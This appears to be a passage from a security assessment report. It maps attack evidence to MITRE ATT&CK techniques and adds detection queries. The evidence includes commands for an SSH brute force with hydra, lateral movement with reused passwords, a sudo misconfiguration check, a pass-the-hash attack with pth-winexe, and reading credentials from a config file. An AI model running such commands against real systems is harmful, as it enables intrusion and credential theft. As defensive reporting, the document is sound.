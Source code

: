 hydra -L userlist -P passlist ssh://web-server-01.internal.corp
Success: svc_webapp:March2025!


### T1021.004 - SSH Lateral Movement

**Description:** Use of SSH for moving between systems with compromised credentials  
**Evidence:**

ssh jsmith@app-server-01.internal.corp
Password: Welcome123! (reused from database)


### T1548.003 - Sudo Privilege Escalation

**Description:** Abuse of sudo permissions to execute malicious scripts as root  
**Evidence:**

sudo -l
(root) NOPASSWD: /opt/scripts/backup.sh


### T1550.002 - Pass the Hash

**Description:** Use of password hashes for authentication instead of plaintext passwords  
**Evidence:**

pth-winexe -U administrator//[hash] //dc-01.internal.corp cmd


### T1552.001 - Unsecured Credentials

**Description:** Discovery of credentials stored in configuration files  
**Evidence:**

cat /var/www/html/config/database.php
db_user = 'app_dbuser', db_pass = 'DbAdmin123!'


## 🛡️ Detection Recommendations

### T1110.001 Detection - SSH Brute Force

SIEM query for SSH brute force detection

source="ssh_logs" failed password | stats count by src_ip | where count > 10


### T1550.002 Detection - Pass-the-Hash

Windows Event ID for Pass-the-Hash detection

Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624; LogonType=9}


### T1021.004 Detection - SSH Lateral Movement

SSH lateral movement monitoring
